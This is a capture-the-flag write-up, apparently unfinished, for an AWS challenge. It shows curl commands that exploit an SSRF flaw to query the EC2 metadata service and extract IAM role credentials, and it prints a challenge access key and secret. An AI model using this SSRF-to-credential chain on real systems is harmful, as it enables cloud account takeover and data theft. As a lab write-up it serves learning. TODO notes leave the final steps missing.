 # CloUDwalker - Cloud Village CTF 2025

## Challenge Description

<img src="./HiddenState_320pts_part1.jpg" width="300">
<img src="./HiddenState_320pts_part2.jpg" width="300">

## Challenge Overview

CloUDwalker was an AWS cloud security challenge that combined Server-Side Request Forgery (SSRF) exploitation with cloud metadata service access and multi-service AWS reconnaissance.

**Target:** `http://cloud-walker.hexnova.quest:8080/`

## Initial Discovery

### Web Application Analysis
Inspecting the HTML source code revealed a commented-out search form with a telling comment:
```html
<!-- remove search due to ssrf problemss
<form action="/search" method="POST">
  <label for="query">Search:</label>
  <input type="text" id="query" name="query" placeholder="Enter search term" required>
  <button type="submit">Submit</button>
</form>
-->
```

This comment directly hinted at SSRF vulnerabilities and identified the attack vector: a POST endpoint at `/search` with a `query` parameter.

## SSRF Exploitation

### AWS Metadata Service Access
We exploited the SSRF vulnerability to access the AWS metadata service:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "query=http://169.254.169.254/latest/meta-data/"
```

This revealed the standard AWS metadata structure, confirming we were running on an EC2 instance.

### Instance Information Gathering
Through SSRF, we extracted critical instance information:
- **Instance ID:** `i-06aa1eec85dfeb4ce`
- **Region:** `eu-north-1` 
- **Account ID:** `101244608939`
- **IAM Role:** `small_phil_role`

### EC2 Tags Analysis
The most crucial discovery came from examining EC2 instance tags:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/tags/instance/hex-nova"
```

This returned a hex-encoded message:
```
747269656420746f206869646520626f6d6220636f646520696e20656332207461672e206661696c2e2074726965642077697468696e2065633220696e7374616e63652e206661696c2e20747279696e6720616e6f7468657220736572766963652e2070657469742e0a
```

Decoding this hex revealed:
```
"tried to hide bomb code in ec2 tag. fail. tried within ec2 instance. fail. trying another service. petit."
```

**Key Clues:**
- "bomb code" = flag  
- "petit" (French for "small") = Lambda functions
- Flag was moved from EC2 to "another service"

## AWS Credentials Extraction

### IAM Role Credentials
Through the SSRF, we extracted temporary AWS credentials:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/iam/security-credentials/small_phil_role"
```

This provided:
- **AccessKeyId:** `ASIARPEVGEGV5J5FTMNK`
- **SecretAccessKey:** `Ni7BvaY53fa890fmsSOdVSXw2l0cl4Uz4SDgFGRq`  
- **SessionToken:** [long session token]

#TODO: Add the complete solution showing how the Lambda function containing the flag was discovered and accessed, as the notes indicate the challenge was not fully completed

## Security Analysis

### Prowler Scan Results
Using the extracted credentials, we performed security analysis with Prowler:
- Role `small_phil_role` had restrictive permissions with explicit denies
- Both `small_phil_role` and `lambda-exec-role` were vulnerable to confused deputy attacks
- Limited access to most AWS services (Lambda, SSM, Secrets Manager blocked)

### S3 Access
We did gain read access to the `syndicate-uk-database` S3 bucket, which contained what appeared to be a cowsay project repository. Analysis of the README.md revealed:

> "Source code backdoors was good attempt to store the bomb code I discovered but it was too obvious and the Syndicate discovered this too quickly. I am avoiding S3 as a service and will look elsewhere."

This confirmed the flag had been moved from S3 to another AWS service, likely Lambda based on the "petit" clue.

#TODO: Add screenshot of the Prowler scan results showing the IAM policy restrictions

## Key Techniques
- Server-Side Request Forgery (SSRF)
- AWS metadata service exploitation
- Hex decoding and cryptanalysis
- AWS IAM role analysis
- Multi-service cloud enumeration
- Security assessment with Prowler

## Lessons Learned
- SSRF vulnerabilities can provide complete cloud environment access
- Instance metadata contains highly sensitive information
- EC2 tags can be used to store and communicate information
- Proper IAM policies are crucial for limiting blast radius
- Cross-service cloud security requires comprehensive analysis

#TODO: Add the final flag once the Lambda function exploitation is completed